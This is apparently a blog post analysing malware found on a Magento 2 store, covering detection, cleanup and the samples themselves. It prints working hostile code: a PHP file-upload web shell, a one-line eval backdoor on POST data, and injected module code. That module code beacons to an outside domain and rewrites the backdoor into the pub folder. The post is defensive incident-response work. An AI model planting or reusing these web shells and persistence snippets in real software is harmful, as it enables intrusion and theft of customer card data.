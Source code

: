 ```yaml
---
title: "Magento 2 Malware Analysis"
description: ""
date: 2024-05-13T19:00:00+00:00
tags: ["magento2", "devops", "devsecops", "malware", "security"]
author: "Me"
draft: false
---
```


Recently I onboarded a new client, who was looking for a new development partner. The site was running `2.3.4`, so I was expecting we would need to perform a few updates and for there to be some security holes to patch. 

I ran Ecomscan, as always, during my initial audit of the site. And that highlighted 4 samples of malware on the store! Much to the surprise of the client, who had zero clue of the site being infected. So into firefighting mode we went. 

## Identification/Locating the Malware

First of we took a snapshot of the VM, so we do not have to worry too much about damaging the infected files potential affecting analysis later on.

Since we did not have access to a valid license for Ecomscan, we started with the singular DB sample since that should be fairly easy to find. We started with some wildcard searches for common characteristics of malware in key tables. Looking for base64 strings & script tags, in tables such as `core_config_data`, `cms_page`, `cms_block` and layout update tables often will expose the malware. In our case, we found the malware hiding in `core_config_data` in the shipping policy entry by its opening script tag followed by some base64 looking characters. 

Now that we found the DB sample, its time to move onto the files. Usually I just start with a simple analysis of the common directories. Root, pub, var, etc. Nothing stood out as out of place in the root directory, looking into the `pub` folder 2 files caused immediate alarm bells. `pub/health_check_old.php` and `pub/web_system.php`. A very simple look at the contents of these files confirmed suspicions, with both being very short php scripts handling user inputted data. And to triple check, the timestamps of the files match those in the Ecomscan report. 

Now, onto the last reported file. I continued with my manual inspections of suspect directories, and a find of non media files in pub/media. No results. Unfortunately for me, the site was previously managed in a poor way. No VCS, no deployment process, just FTPing changes and SSH to run commands. Alongside most of the modules being installed under app/code. So I had no source of truth for the vendor code of the site. 

Where to go next... I move onto targeted Ecomscans to analysis, singular vendors under app/code. In the attempted of locating the malware or a false positive. Bingo! We got a hit on the Mageants vendor, which conveniently had a single module under it. I continued to drill down into each module directory starting at the most likely suspects, Controller, Plugin, Observer. The Observer directory flagged as malware. I manually inspected the source code of the observers, and noticed some very Jank looking base64 code and a curl command. Running Ecomscan directly at this file flags Malware and highlights the timestamps are a match.

## Solutions before Analysis

Now that we have identified the issue, and have a Snapshot of the Malware. Its time to rectify the issues before it can potentially affect more visitors. 

The DB sample, was simple. Set the content of the config entry an empty string. 
```sql
UPDATE core_config_data SET value = '' WHERE path = 'shipping/shipping_policy/shipping_policy_content';
```

Now onto the files under pub, we can simply remove these with a rm command. 
```sh
rm pub/health_check_old.php pub/web_system.php
```

Now for the altered Mageants observer, this poses a bit more hassle to resolve. It’s a paid module under app/code, which we do not have credentials for. So in turn we have no source of truth of this module. So after performing some simple analysis and confirming the suspicious looking code is indeed malware, we removed the lines of Malware. And reached out to the vendor to see if they can provide a clean copy of the module or at least the infected files. (Which they did, thanks Mageants!)

## The Juicy part: Analysis

### Stripe CC Scraper
I've wrote a separate post on the analysis of this over at <URL>.
But in short, its a cookie cutter card scraper. Replacing the Stripe form, with a custom one, extracting data to a separate domain. Before re-enabling the original form with a generic `Try again` error.

A few things of note with this specific sample
- It was disabling Paypal & Amazon payments forcing customers through the compromised stripe form
- The target endpoint for the data was the `health_check.php` file on another Magento 2 site, selling spanish crisps.
- According to the config `updated_at` date it had been present since `04-2024`

### Web System
This appears to be a simple file upload exploit, proving a HTML form to allow an attack to upload any file to the system. This file is inaccessible due to nginx configuration so its not believed it was abused in anyway. Although due to lack of setup and history on the project, we can only speak about the setup as we inherited it.
According to the file timestamp, it had been in place since `05-2023` almost a year!
```php
<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader"><input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>
<?php
if($_POST['_upl']=="Upload"){if(@copy($_FILES['file']['tmp_name'],$_FILES['file']['name']));}?>
```

### Health Check Old
This appears to be a simple RCE exploit, evaluating any supplied base64 data passed in a `PDP` POST field. Again this is believed not to have been exploited due to nginx configuration. This file is showing as been in place since `12-2023`. 
```php
<?php echo "OK.";@eval(base64_decode($_POST["pdp"]));
```


### Mageants Order Attachment
This malware is different in the sense it modifies an genuine module file. And it appears to just handle persisting the previous health_check_old sample from above. The malware adds a class property called `secure_sp_keys` which is an array of base64 encoded strings
```php
    public $secure_sp_keys = [
        'global_key' => 'PD9waHAgZWNobyAiT0suIjtAZXZhbChiYXN',
        'local_key' => 'lNjRfZGVjb2RlKCRfUE9TVFsicGRwIl0pKTs',
        'health_key' => 'aGVhbHRoX2NoZWNrX29sZC5waHA'
    ];
```

Then in the execute method, the malware adds two sections. Firstly, a curl POST request to the domain "https://mageants.sbs" with the magento version, Magento domain and infected module name. 
```php
    $service_url = 'https://mageants.sbs';
    $uri = $this->StoreManager->getStore()->getBaseUrl();
    $curl_post_data = [
        'ext_name' => 'order_attachment',
        'mag_v' => '2.3-2.4'
    ];
    $headers = ["Origin" => $uri];
    try {
        $this->curl->setHeaders($headers);
        $this->curl->post($service_url, $curl_post_data);
    } catch (\Exception $e) {}
```

Then it also adds some `file_put_contents` statements that handles writing the encoded malware from the `secure_sp_keys` property to the pub folder.
```php
    $om = \Magento\Framework\App\ObjectManager::getInstance();
    $directoryList = $om->get('Magento\Framework\App\Filesystem\DirectoryList');

    if(file_exists($directoryList->getPath('pub').'/'.base64_decode($this->secure_sp_keys['health_key']))){
        if(strcasecmp(file_get_contents($directoryList->getPath('pub').'/'.base64_decode($this->secure_sp_keys['health_key'])), base64_decode($this->secure_sp_keys['global_key'].$this->secure_sp_keys['local_key'])) != 0){
            file_put_contents($directoryList->getPath('pub').'/'.base64_decode($this->secure_sp_keys['health_key']), base64_decode($this->secure_sp_keys['global_key'].$this->secure_sp_keys['local_key']));
        }
    }else{
        file_put_contents($directoryList->getPath('pub').'/'.base64_decode($this->secure_sp_keys['health_key']), base64_decode($this->secure_sp_keys['global_key'].$this->secure_sp_keys['local_key']));
    }
```

